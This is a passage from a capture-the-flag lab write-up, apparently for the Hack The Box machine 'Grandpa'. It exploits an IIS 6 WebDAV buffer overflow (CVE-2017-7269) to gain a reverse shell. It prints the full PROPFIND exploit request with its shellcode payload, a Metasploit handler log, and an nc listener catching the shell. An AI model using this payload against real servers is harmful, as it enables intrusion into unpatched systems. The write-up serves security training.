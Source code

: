 
    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.47:443 
    [*] Encoded stage with x86/shikata_ga_nai
    [*] Sending encoded stage (267 bytes) to 10.10.10.14
    [*] Command shell session 3 opened (10.10.14.47:443 -> 10.10.10.14:1038) at 2020-05-27 17:15:40 -0400


    [*] 10.10.10.14 - Command shell session 3 closed.  Reason: User exit



Eventually I did some Googling and stumbled across [this
post](https://forum.hackthebox.eu/discussion/1990/grandpa-reverse-tcp-immediately-closes-after-sending-exploit/p1)
in the HTB forums, which is others having the same issue. I have no idea
why.

### Success

I eventually found [this
script](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269). I
didn't have to update it at all, and running it gave a shell:



    root@kali# python iis_rev_shell.py 10.10.10.14 80 10.10.14.47 443
    PROPFIND / HTTP/1.1
    Host: localhost
    Content-Length: 1744
    If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ
    ￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ
    ￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ
    ￢ﾧﾧ￦ﾠﾁVVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>



At my listener:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.14.
    Ncat: Connection from 10.10.10.14:1030.
    Microsoft Windows [Version 5.2.3790]
    (C) Copyright 1985-2003 Microsoft Corp.
